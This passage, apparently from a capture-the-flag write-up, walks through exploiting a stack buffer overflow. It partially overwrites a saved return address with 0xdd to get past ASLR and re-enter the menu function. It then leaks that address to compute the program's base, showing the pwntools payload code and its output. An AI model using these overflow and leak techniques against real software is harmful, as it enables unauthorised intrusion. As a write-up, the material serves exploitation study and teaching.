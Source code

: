 Note that ASLR is enabled, meaning that we do not know any full addresses at this point. However, this does not prevent us from overwriting the saved RIP and redirecting execution to a desired location. Even with ASLR enabled, the last three significant nibbles (12 bits) remain constant, which allows us to overwrite one or two significant bytes to jump to a relative address near the saved RIP (**0xdd** to ). Since the overflow occurs in `menu`, the saved RIP belongs to an address within `main`.So by carefully adjusting the overwritten value, we can jump back to the call to `menu` in `main` and re-execute the function.

![alt text](images/overwrite.png)

Moreover, after executing `read`, it prints our input before performing the case modifications, and 0xdd does not represent any alphabetic letter. This allows us to leak the Saved RIP that we overwrote.

Python code fraction:
```python
# Offset Calculation
sBuffer = 0x7fffffffd710
sRip =    0x7fffffffd768
offsetRip = sRip - sBuffer # 0x58

r.sendlineafter(b" Exit\n", b"1")

payload = b"A"*offsetRip + b"\xdd"
r.sendafter(b" 69 characters)", payload)
```


Output:
```bash
String you entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xddSUUUU
Your string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xddSUUUU
Choose an option:
1: Modify string
2: Debug Mode
3: Exit
```


Python code fraction:
```python
r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
output = r.recvline()[:-1]
leakMain = u64(output.ljust(8, b"\x00"))
log.info(f"leakMain: {hex(leakMain)}")

sbaseCode = 0x555555554000
sLeakMain = 0x5555555553dd
offsetBaseCode = sbaseCode - sLeakMain
e.address = leakMain + offsetBaseCode
log.info(f"baseCode: {hex(e.address)}")
```
